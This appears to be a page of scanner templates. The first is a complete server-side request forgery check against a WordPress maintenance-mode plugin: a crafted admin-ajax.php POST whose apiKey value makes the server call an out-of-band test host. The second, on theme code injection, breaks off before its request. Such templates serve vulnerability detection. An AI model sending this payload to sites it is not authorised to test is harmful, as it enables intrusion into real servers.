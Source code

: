 # Under Construction, Coming Soon & Maintenance Mode < 1.1.2 - Server Side Request Forgery (SSRF)

## Description

- The includes/mc-get_lists.php file used the 'apiKey' POST parameter to create an https URL from it without sanitisation and called it with cURL, leading to a SSRF issue. The issue is exploitable via direct access to the affected file, and ucmm_mc_api AJAX call (available to both authenticated and unauthenticated users).

- severity - high
- tags - ssrf,wp,wp-plugin,wordpress,unauth,wpscan,packetstorm

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

action=ucmm_mc_api&apiKey=-{{interactsh-url}}%2Ftest%2Ftest%2Ftest%3Fkey1%3Dval1%26dummy%3D

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# WordPress Themes - Code Injection

## Description

- Fifteen WordPress themes are susceptible to code injection using a version of epsilon-framework, due to lack of capability and CSRF nonce checks in AJAX actions.
- severity - high
- tags - wordpress,rce,ssrf,edb,wpscan

## Requests

### Step - 1
